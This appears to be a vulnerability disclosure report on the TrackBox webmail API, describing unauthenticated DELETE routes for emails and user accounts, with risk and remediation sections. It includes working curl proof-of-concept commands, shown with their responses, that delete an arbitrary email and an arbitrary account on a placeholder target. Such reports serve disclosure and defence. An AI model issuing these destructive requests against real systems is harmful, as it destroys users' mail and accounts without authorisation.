




# Description

Missing authentication on destructive methods (CWE-306 / CWE-862) of the TrackBox webmail API. Two object-level `DELETE` routes are reachable with no session, `Authorization` header, CSRF token, or ownership check:

1. `DELETE /api/emails/<id>` — permanently deletes any email by numeric id.
2. `DELETE /api/users/<username>` — permanently deletes any webmail account by username.

Combined with the unauthenticated `GET /api/users` and `GET /api/emails` (which disclose every identifier), an attacker does not even need to guess ids — the API hands them over. This adds direct **integrity** and **availability** impact on top of the read/write exposure of the same surface.

# Exploitation

All steps below use only attacker-created PoC objects to avoid touching real data.

| Step | Action | Result |
|------|--------|--------|
| 1 | `POST /api/emails` to create a controlled test email. | Email id assigned (e.g. `86`). |
| 2 | `OPTIONS /api/emails/86`. | `Allow: DELETE, OPTIONS, GET, HEAD` — DELETE offered, no auth. |
| 3 | `DELETE /api/emails/86`. | `200 {"message":"Email deleted successfully"}`. |
| 4 | Same flow on `DELETE /api/users/<username>`. | Arbitrary account deletion. |

# PoC

**1. Delete an arbitrary email (unauthenticated):**

```bash
curl -sk -X DELETE http://webmail.<TARGET>/api/emails/86 -i
# HTTP/1.1 200 OK
# {"message":"Email deleted successfully","status":"success"}
```



Verification that the object is gone:

```bash
curl -sk http://webmail.<TARGET>/api/emails/86
# {"message":"Email not found","status":"error"}
```



**2. Delete an arbitrary webmail user (unauthenticated):**

```bash
curl -sk -X DELETE http://webmail.<TARGET>/api/users/deleteprobe_1779619949@tbox.traced -i
# HTTP/1.1 200 OK
# {"message":"User deleted successfully","status":"success"}
```





# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | None directly (covered by the read endpoints). |
| Integrity | Arbitrary destruction of mailbox content and user accounts by any anonymous client. |
| Availability | Mass deletion of emails/users remotely; scriptable, no victim interaction. |

Overall severity: **High** — unauthenticated remote data destruction; identifiers are self-disclosed by the companion read endpoints.

# Remediation

1. **Require authentication and authorization** on all object routes: users may delete only emails in their own mailbox; user deletion is admin-only.
2. **Remove unauthenticated `DELETE`** from public API routes.
3. **Add CSRF protection** for browser-reachable state-changing endpoints.
4. **Audit logs** for prior `DELETE /api/emails/<id>` and `/api/users/<username>` calls.

# Author
Hackrapovic
